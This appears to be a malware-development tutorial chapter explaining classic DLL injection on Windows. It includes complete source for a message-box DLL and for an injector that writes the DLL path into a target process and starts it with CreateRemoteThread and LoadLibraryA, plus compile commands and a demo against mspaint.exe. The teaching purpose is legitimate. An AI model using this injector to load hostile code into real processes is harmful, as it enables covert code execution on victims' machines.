

# 03 - injection (DLL)

Firstly, let’s go to prepare our DLL.   

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called main which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.    

On the other hand with the DLL's when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements.    

So exe need a `main` function and DLL's need `DLLMain` function.     
Basically that’s the simplest difference.    

For simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
 * evil.c
 * simple DLL for DLL inject to process
 * author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Hello, Prishtina!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.    

When run in injected process it should display our message: `Hello, Prishtina!`, so we will know that injection was successful. Now we can compile it (on attacker’s machine):    

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.c -fpermissive
```

    

Now we only need a code which will inject this library into the process of our choosing.    

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer:     

```cpp
/*
 * hack.c
 * classic DLL injection example
 * author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

It’s pretty simple as you can see. It's same as in my previous code injection example. The only difference is we add path of our DLL from disk:    

```cpp
char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;
```

and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA` - [https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya):    

```cpp
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

, as this will be an API call that we will execute in the context of the victim process to load our DLL:     

```cpp
// handle to kernel32 and pass it to GetProcAddress
HMODULE hKernel32 = GetModuleHandle("Kernel32");
VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
```

So finally after we understood entire code of the injector, we can test it. Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

So, let's say we download our `evil.dll` to `C:\\`:    

   

Let's first launch a `mspaint.exe` instance:  

    

and then execute our program:    

```powershell
.\hack.exe <PID>
```

    

    

To verify our DLL is indeed injected into `mspaint.exe` process we can use Process Hacker again:    

    

In the memory section we can see:    

    

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.    